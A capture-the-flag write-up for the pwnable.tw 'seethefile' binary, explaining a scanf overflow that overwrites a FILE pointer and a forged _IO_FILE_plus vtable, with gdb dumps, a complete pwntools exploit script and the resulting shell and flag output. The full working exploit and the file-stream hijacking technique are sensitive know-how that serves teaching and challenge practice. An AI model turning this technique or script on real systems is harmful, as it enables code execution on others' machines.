



seethefile: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=04e6f2f8c85fca448d351ef752ff295581c2650d, not stripped


CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial


## Intro
The program allows us to open any file on the file system, read up to `399` bytes from the associated file pointer stream, and write its contents to stdout.

**Note that when we read the contents from a file pointer stream, we advance the `seek`. Therefore, even though we are limited to reading `399` bytes from a file per read, we can still read the whole file if we just read from the file multiple times.** 

It also allows us to close the file and exit the program.

Exiting the program does something very interesting.


printf("Leave your name :");
__isoc99_scanf("%s", &name);
printf("Thank you %s ,see you next time\n", &name);

if ( fp ){
	fclose(fp);
}

exit(0);
return;


As we can see, when we exit the program, we are asked to leave our name, which is insecurely read into a global buffer, `name`, before our name is printed out and `fclose()`is called on the file pointer.

## Vulnerability
The vulnerability in the program is obvious. The `scanf()` call allows us to overflow the `name` buffer and corrupt the `fp` pointer. 


gdb-peda$ x/200xw 0x804b0c0
0x804b0c0 <magicbuf>:     0x746f6f72      0x303a783a      0x723a303a      0x3a746f6f
0x804b0d0 <magicbuf+16>:  0x6f6f722f      0x622f3a74      0x622f6e69      0x0a687361
0x804b0e0 <magicbuf+32>:  0x6d656164      0x783a6e6f      0x313a313a      0x6561643a
0x804b0f0 <magicbuf+48>:  0x3a6e6f6d      0x7273752f      0x6962732f      0x752f3a6e
0x804b100 <magicbuf+64>:  0x732f7273      0x2f6e6962      0x6f6c6f6e      0x0a6e6967
0x804b110 <magicbuf+80>:  0x3a6e6962      0x3a323a78      0x69623a32      0x622f3a6e
0x804b120 <magicbuf+96>:  0x2f3a6e69      0x2f727375      0x6e696273      0x6c6f6e2f
0x804b130 <magicbuf+112>: 0x6e69676f      0x7379730a      0x333a783a      0x733a333a
0x804b140 <magicbuf+128>: 0x2f3a7379      0x3a766564      0x7273752f      0x6962732f
0x804b150 <magicbuf+144>: 0x6f6e2f6e      0x69676f6c      0x79730a6e      0x783a636e
0x804b160 <magicbuf+160>: 0x363a343a      0x34333535      0x6e79733a      0x622f3a63
0x804b170 <magicbuf+176>: 0x2f3a6e69      0x2f6e6962      0x636e7973      0x6d61670a
0x804b180 <magicbuf+192>: 0x783a7365      0x363a353a      0x61673a30      0x3a73656d
0x804b190 <magicbuf+208>: 0x7273752f      0x6d61672f      0x2f3a7365      0x2f727375
0x804b1a0 <magicbuf+224>: 0x6e696273      0x6c6f6e2f      0x6e69676f      0x6e616d0a
0x804b1b0 <magicbuf+240>: 0x363a783a      0x3a32313a      0x3a6e616d      0x7261762f
0x804b1c0 <magicbuf+256>: 0x6361632f      0x6d2f6568      0x2f3a6e61      0x2f727375
0x804b1d0 <magicbuf+272>: 0x6e696273      0x6c6f6e2f      0x6e69676f      0x3a706c0a
0x804b1e0 <magicbuf+288>: 0x3a373a78      0x706c3a37      0x61762f3a      0x70732f72
0x804b1f0 <magicbuf+304>: 0x2f6c6f6f      0x3a64706c      0x7273752f      0x6962732f
0x804b200 <magicbuf+320>: 0x6f6e2f6e      0x69676f6c      0x616d0a6e      0x783a6c69
0x804b210 <magicbuf+336>: 0x383a383a      0x69616d3a      0x762f3a6c      0x6d2f7261
0x804b220 <magicbuf+352>: 0x3a6c6961      0x7273752f      0x6962732f      0x6f6e2f6e
0x804b230 <magicbuf+368>: 0x69676f6c      0x656e0a6e      0x783a7377      0x393a393a
0x804b240 <magicbuf+384>: 0x77656e3a      0x762f3a73      0x732f7261      0x006f6f70
0x804b250:              0x00000000      0x00000000      0x00000000      0x00000000
0x804b260 <name>:       0x00000000      0x00000000      0x00000000      0x00000000
0x804b270 <name+16>:    0x00000000      0x00000000      0x00000000      0x00000000
0x804b280 <fp>: 0x0804c008      0x00000000      0x00000000      0x00000000
0x804b290:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b2a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b2b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b2c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b2d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b2e0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b2f0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b300:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b310:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b320:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b330:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b340:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b350:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b360:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b370:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b380:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b390:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b3a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b3b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b3c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b3d0:      0x00000000      0x00000000      0x00000000      0x00000000


If we examine the `fp` object, we see the following. 

gdb-peda$ x/40xw 0x0804c008
0x804c008:      0xfbad2418      0xf7fd7000      0xf7fd7000      0xf7fd7000
0x804c018:      0xf7fd7000      0xf7fd7000      0xf7fd7000      0xf7fd7000
0x804c028:      0xf7fd8000      0x00000000      0x00000000      0x00000000
0x804c038:      0x00000000      0xf7faf960      0x00000003      0x00000000
0x804c048:      0x00000000      0x00000000      0x0804c0a0      0xffffffff
0x804c058:      0xffffffff      0x00000000      0x0804c0ac      0x00000000
0x804c068:      0x00000000      0x00000000      0xffffffff      0x00000000
0x804c078:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c098:      0x00000000      0xf7faeaa0      0x00000001      0x00000001


How can we corrupt the `fp` in such a way to control EIP though?

## Exploit
Using the `scanf()` function, we can actually overwrite the `fp` pointer to force it to point to a fake `FILE` object, internally `_IO_FILE`,  whose contents we control. **The** `_IO_FILE` **struct type contains a virtual function table, much like in C++, that it uses to call functions.**

Actually, when a file is opened, a `_IO_FILE_plus` objected is created for it. An `_IO_FILE_plus` object is basically a `_IO_FILE` object plus a `vptr`.

struct _IO_FILE_plus
 {
	 _IO_FILE file;
	 const struct _IO_jump_t *vtable;
 };



struct _IO_FILE {
    int _flags;           /* High-order word is _IO_MAGIC; rest is flags. */
 #define _IO_file_flags _flags
 
    /* The following pointers correspond to the C++ streambuf protocol. */
    /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
    char* _IO_read_ptr;   /* Current read pointer */
    char* _IO_read_end;   /* End of get area. */
    char* _IO_read_base;  /* Start of putback+get area. */
    char* _IO_write_base; /* Start of put area. */
    char* _IO_write_ptr;  /* Current put pointer. */
    char* _IO_write_end;  /* End of put area. */
    char* _IO_buf_base;   /* Start of reserve area. */
    char* _IO_buf_end;    /* End of reserve area. */
    /* The following fields are used to support backing up and undo. */
    char *_IO_save_base; /* Pointer to start of non-current get area. */
    char *_IO_backup_base;  /* Pointer to first valid character of backup area */
    char *_IO_save_end; /* Pointer to end of non-current get area. */
  
    struct _IO_marker *_markers;
  
    struct _IO_FILE *_chain;
  
    int _fileno;
   #if 0
    int _blksize;
  #else
    int _flags2;
  #endif
    _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */
  
  #define __HAVE_COLUMN /* temporary */
    /* 1+column number of pbase(); 0 is unknown. */
    unsigned short _cur_column;
    signed char _vtable_offset;
    char _shortbuf[1];
  
    /*  char* _save_gptr;  char* _save_egptr; */
  
    _IO_lock_t *_lock;
  #ifdef _IO_USE_OLD_IO_FILE
  };


The callgraph for a `_IO_FILE_plus` object looks like the following:

In `gdb`, a valid `_IO_FILE_plus` object looks like the following:


gdb-peda$ print *(struct _IO_FILE_plus*)fp
$26 = {
  file = {
    _flags = 0xfbad2498, 
    _IO_read_ptr = 0xf7fd7000 "APPLE", 
    _IO_read_end = 0xf7fd7000 "APPLE", 
    _IO_read_base = 0xf7fd7000 "APPLE", 
    _IO_write_base = 0xf7fd7000 "APPLE", 
    _IO_write_ptr = 0xf7fd7000 "APPLE", 
    _IO_write_end = 0xf7fd7000 "APPLE", 
    _IO_buf_base = 0xf7fd7000 "APPLE", 
    _IO_buf_end = 0xf7fd8000 "3\nome/rh0gue/Documents/pwnable.tw/seethefile/apple\n", 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0xf7faf960 <_IO_2_1_stderr_>, 
    _fileno = 0x3, 
    _flags2 = 0x0, 
    _old_offset = 0x0, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = "", 
    _lock = 0x804c0a0, 
    _offset = 0xffffffffffffffff, 
    _codecvt = 0x0, 
    _wide_data = 0x804c0ac, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    _freeres_size = 0x0, 
    _mode = 0xffffffff, 
    _unused2 = '\000' <repeats 39 times>
  }, 
  vtable = 0xf7faeaa0 <_IO_file_jumps> <------- we must corrupt this!!
}


**If we can corrupt the** `vptr` **and make it point to a fake** `vtable`**, whose contents we control, we can control EIP!** 

This technique is described [here](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/) and [here](http://blog.dazzlepppp.cn/2017/02/04/FSOP%E4%BB%A5%E5%8F%8Aglibc%E9%92%88%E5%AF%B9%E5%85%B6%E6%89%80%E5%81%9A%E7%9A%84%E9%98%B2%E5%BE%A1%E6%8E%AA%E6%96%BD/).

However, to reach the `vptr` we need to overwrite the other members of the struct. How do we know what to overwrite them with, though?
To make things easy, we can use a known trick.

**If we populate the fields in our fake** `_IO_FILE_plus` **object with** `0xffffffff` **, we can actually pass all the checks and overwrite the** `vptr` **located at offset** `0x4c` **from the beginning of our fake** `_IO_FILE_plus` **object!**

We can overwrite this `vptr` with the address of a fake `vtable` that we craft.

In the fake `vtable`, we will populate it with an address that we want to control -- ideally, `system@libc`.

However, let's first test it by filling the `vtable`, with `A`'s.
When we do this, we successfully get a crash and control of EIP.

gdb-peda$ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x804b2e0 ('A' <repeats 12 times>, 'C' <repeats 50 times>)
EBX: 0xf76f3000 --> 0x1afdb0 
ECX: 0x0 
EDX: 0x8000 
ESI: 0x804b290 --> 0xffffff7f 
EDI: 0xffffffff 
EBP: 0xffd7fb68 --> 0xffd7fba8 --> 0xffd7fbf8 --> 0x0 
ESP: 0xffd7fb3c --> 0xf76604ce (<fclose+78>:	mov    eax,DWORD PTR [esi+0x24])
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffd7fb3c --> 0xf76604ce (<fclose+78>:	mov    eax,DWORD PTR [esi+0x24])
0004| 0xffd7fb40 --> 0x804b290 --> 0xffffff7f 
0008| 0xffd7fb44 --> 0x0 
0012| 0xffd7fb48 --> 0x0 
0016| 0xffd7fb4c --> 0x0 
0020| 0xffd7fb50 --> 0xf76f3000 --> 0x1afdb0 
0024| 0xffd7fb54 --> 0xf76f3000 --> 0x1afdb0 
0028| 0xffd7fb58 --> 0xf766048b (<fclose+11>:	add    ebx,0x92b75)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()


Notice that the first argument passed into the function is `0x804b290`, which is the starting address of our fake `_IO_FILE_plus` object!
 
Since we also control the data at this address, we can simply inject `;/bin/sh\0` into the beginning of our fake object to call `system("<junk>;/bin/sh\0");` and obtain a shell!

Putting everything together, we get a shell using the following exploit.

## Solution

#!/usr/bin/env python

from pwn import *
import sys

def openfile(name):
    r.sendline("1")
    r.recvuntil(" :")
    r.sendline(name)
    r.recvuntil(" :")

def readfile():
    r.sendline("2")
    r.recvuntil(" :")

def writescreen():
    r.sendline("3")
    return r.recvuntil("choice :")

def exit(name):
    r.sendline("5")
    r.recvuntil("name :")
    r.sendline(name)

def exploit(r):
    r.recvuntil(" :")
    openfile("/proc/self/maps")
    readfile()
    readfile() # leak libc
    procmap = writescreen()
    libc_base = int("0x"+procmap.split("\n")[1].split("-")[0],16)
    system = libc_base+0x3a940
    log.success("libc_base found at: "+hex(libc_base))
    log.success("system@libc found at: "+hex(system))
    
    ## OVERWRITE FP
    name  = ""
    name += "A"*4*8
    name += p32(0x804b290) # fp
    name += "B"*4*3

    ## FAKE _IO_FILE_plus OBJECT STARTS HERE
    name += "\xff"*4      # 0x804b290+0x0
    name += ";/bin/sh\00"
    name += "\xff"*(0x48-9)
    name += p32(0x804b290+0x50) # vptr
    ## FAKE VTABLE STARTS HERE
    name += "A"*8         # +0x50
    name += p32(system) # EIP
    name += "C"*50

    exit(name)
    
    #pause()
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/pwnable.tw/seethefile/seethefile'], env={"LD_PRELOAD":"./libc_32.so.6"})
        print util.proc.pidof(r)
        pause()
        exploit(r)



➜  seethefile python solve.py chall.pwnable.tw 10200
[*] For remote: solve.py HOST PORT
[+] Opening connection to chall.pwnable.tw on port 10200: Done
[+] libc_base found at: 0xf75a2000
[+] system@libc found at: 0xf75dc940
[*] Switching to interactive mode
Thank you AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x90\xb2\x0BBBBBBBBBBBB\xff\xff\xff\xff;/bin/sh ,see you next time
$ id
uid=1000(seethefile) gid=1000(seethefile) groups=1000(seethefile)
$ cd /home/seethefile
$ ls
flag
get_flag
get_flag.c
run.sh
seethefile
$ cat get_flag.c
#include <unistd.h>
#include <stdio.h>

int read_input(char *buf,unsigned int size){
    int ret ;
    ret = read(0,buf,size);
    if(ret <= 0){
        puts("read error");
        exit(1);
    }
    if(buf[ret-1] == '\n')
        buf[ret-1] = '\x00';
    return ret ;
}

int main(){
    char buf[100];
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    printf("Your magic :");
    read_input(buf,40);
    if(strcmp(buf,"Give me the flag")){
        puts("GG !");
        return 1;
    }
    FILE *fp = fopen("/home/seethefile/flag","r");
    if(!fp){
        puts("Open failed !");
    }
    fread(buf,1,40,fp);
    printf("Here is your flag: %s \n",buf);
    fclose(fp);
}
$ ./get_flag
Your magic :$ Give me the flag
Here is your flag: FLAG{F1l3_Str34m_is_4w3s0m3}


